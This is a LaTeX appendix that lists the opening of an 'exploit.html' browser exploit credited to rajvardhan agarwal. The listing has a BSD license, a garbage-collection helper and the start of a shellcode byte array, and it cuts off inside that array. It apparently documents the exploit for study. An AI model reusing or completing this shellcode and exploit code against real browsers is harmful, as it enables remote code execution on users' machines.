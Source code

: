 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices} 


\chapter*{Technical documentation}

\begin{lstlisting}[label={lst:firstLst},caption={Example of a "exploit.html" file},escapeinside=``,basicstyle=\tiny]

	<script>
	/*
	BSD 2-Clause License
	Copyright (c) 2021, rajvardhan agarwal
	All rights reserved.
	Redistribution and use in source and binary forms, with or without
	modification, are permitted provided that the following conditions 
	are met:
	1. Redistributions of source code must retain the above copyright 
	   notice, this list of conditions and the following disclaimer.
	2. Redistributions in binary form must reproduce the above copyright 
	   notice, this list of conditions and the following disclaimer 
	   in the documentation and/or other materials provided with the 
	   distribution.
	THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS 
	"AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT 
	LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS 
	FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE 
	COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, 
	INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, 
	BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; 
	LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
	CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT 
	LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN 
	ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE 
	POSSIBILITY OF SUCH DAMAGE.
	*/
		function gc() {
			for (var i = 0; i < 0x80000; ++i) {
				var a = new ArrayBuffer();
			}
		}
		let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 
		0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
		0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 
		0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 
		0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 
		0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 
		0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 
		0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 
		0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 
		0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 

\end{lstlisting}
\end{appendices}
\end{document}
